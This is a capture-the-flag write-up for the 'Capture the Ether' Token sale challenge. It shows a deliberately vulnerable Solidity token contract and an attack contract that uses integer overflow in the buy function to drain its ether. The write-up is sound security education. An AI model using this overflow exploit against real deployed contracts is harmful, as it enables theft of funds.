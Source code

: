 # Catch the Ether 8: Token sale

Arithmetic Overflow

## The Task Intro

This token contract allows you to buy and sell tokens at an even exchange rate of 1 token per ether. The contract starts off with a balance of 1 ether. See if you can take some of that away.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```

## The Solution

After studing this code I thought there is no vulnerability and no way to catch some ether. Having the hint of arithmetic overflow/underflow might be a vulnerability from Jeffs task sheet, I needed to go back to the Arithmetic Underflow of Ethernaut 5. There a parameter of type uint was used in a substraction as Subrahend. With a minuend of 20 I could substract 21 to cause a underflow and receive a crazy high number of tokens.

In this challenge the buy function is vulnerable for a overflow, because msg.value needs to be higher as the uint256 max value - starting to count from the beginning again. Therefore the task is:

1. calculate the numTokens needed to let the uint256 to overflow
2. calculate what amount of eth we need to send with this task

```apache
contract Crack {
    TokenSaleChallenge tsc;

    uint256 public constant MAX_VALUE = 2 ** 256 - 1;
    uint256 public constant overflowNumTokens = (MAX_VALUE / 10 ** 18) + 1;
    uint256 public constant ethToSend = (overflowNumTokens * 10 ** 18) - MAX_VALUE - 1;

    function Crack(TokenSaleChallenge _tbc) public payable {
        tsc = _tbc;
    }

    function attack() {
        tsc.buy.value(ethToSend)(overflowNumTokens);
    }

    function balance() external view returns (uint256) {
        return tsc.balanceOf(address(this));
    }

    function sellToken() public {
        tsc.sell(1);
    }

    function() public payable {}
}
```
